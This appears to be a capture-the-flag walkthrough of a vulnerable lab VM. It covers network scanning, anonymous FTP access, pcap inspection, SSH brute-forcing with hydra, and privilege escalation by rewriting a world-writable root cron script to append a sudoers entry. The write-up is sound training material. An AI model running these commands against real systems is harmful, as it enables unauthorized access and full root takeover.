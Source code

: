 # Pingsweep

```
nmap -sn 192.168.114.1-254
```
```
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.134
Host is up (-0.088s latency).
MAC Address: 00:50:56:E0:B0:AD (VMware)
Nmap scan report for 192.168.114.131
Host is up.
```

# Port Enumeration
```
nmap -sV 192.168.114.134
```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```
#### FTP Enumeration
```
searchsploit vsftpd  - Doesn't seem to show any major vulnerabilities.
```
We try to log through using anonymous ftp
```
ftp 192.168.114.134
user:anonymous@anything
pass:
```
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap
get lol.pcap  - we find a file that can be used with WireShark.
```

#### HTTP Enumeration

Scanning Using nikto
```
nikto -h 192.168.114.134
```
```
+ Entry '/secret/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
```
/secret/ leads to a troll image.


#### WireShark

Openning the lol.pcap > Follow TCP Stream
We find a file
```
200 Switching to Binary mode.
PORT 10,0,0,12,202,172
200 PORT command successful. Consider using PASV.
RETR secret_stuff.txt
150 Opening BINARY mode data connection for secret_stuff.txt (147 bytes).
226 Transfer complete.
```
Since we captured the data transfer.
```
Frame 40: 213 bytes on wire (1704 bits), 213 bytes captured (1704 bits) on interface 0
Ethernet II, Src: Vmware_20:70:99 (00:0c:29:20:70:99), Dst: Vmware_5d:04:92 (00:0c:29:5d:04:92)
Internet Protocol Version 4, Src: 10.0.0.6, Dst: 10.0.0.12
Transmission Control Protocol, Src Port: 20, Dst Port: 51884, Seq: 1, Ack: 1, Len: 147
FTP Data (Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n\nSucks, you were so close... gotta TRY HARDER!\n)
```

IF YOU DO NOT WANT TO USE WIRESHARK
```
strings lol.pcap  - also works.
```

#### More HTTP Enumeration

Going back to the webserver
```
http://192.168.114.134/sup3rs3cr3tdirlol/
We find a new directory and a new bin file.
roflmao.bin
```
Trying to find any strings that can help us
```
strings roflmao.bin
```
```
GLIBC_2.0
PTRh
[^_]
Find address 0x0856BF to proceed   <- this is of interest.
;*2$"
GCC: (Ubuntu 4.8.2-19ubuntu1) 4.8.2
```
Trying this everywhere leads us to.
```
http://192.168.114.134/0x0856BF/
```

# Exploit 

We seem to have found possible usernames and passwords.
According to the folder password is located in Pass.txt
We attempt to brute force using hydra
```
hydra -L username.txt -P Pass.txt 192.168.114.134 ssh -vv
```
Can't seem to find a match.
We try to include the Pass.txt name in the file and try again.
```
[22][ssh] host: 192.168.114.134   login: overflow   password: Pass.txt
```
```
ssh overflow@192.168.114.134
Password: Pass.txt
```

# Local Privilege Escalation

```
[+] World Writable Files
    -rwxrwxrwx 1 troll root 8068 Aug 10  2014 /srv/ftp/lol.pcap
    -rwxrwxrwx 1 root root 34 Aug 13  2014 /var/tmp/cleaner.py.swp
    -rwxrwxrwx 1 root root 7296 Aug 11  2014 /var/www/html/sup3rs3cr3tdirlol/roflmao
    -rwxrwxrwx 1 root root 23 Aug 13  2014 /var/log/cronlog
    -rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
```
```
cat /var/log/cronlog
```
It runs cleaner.py periodically
```
cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /tmp/* ')
except:
	sys.exit()
```
Simple program to delete files in tmp.
Fortunately it has world write. Therefore instead we can edit the file and use os.system to give us root. OR we can replace the file with a reverse python shell, and make sure the name is cleaner.py
```
	os.system('echo "overflow ALL=(ALL:ALL) ALL" >> /etc/sudoers ')
```
This gives overflow sudo privileges. 
Wait...
```
sudo su  <- gives me root
```



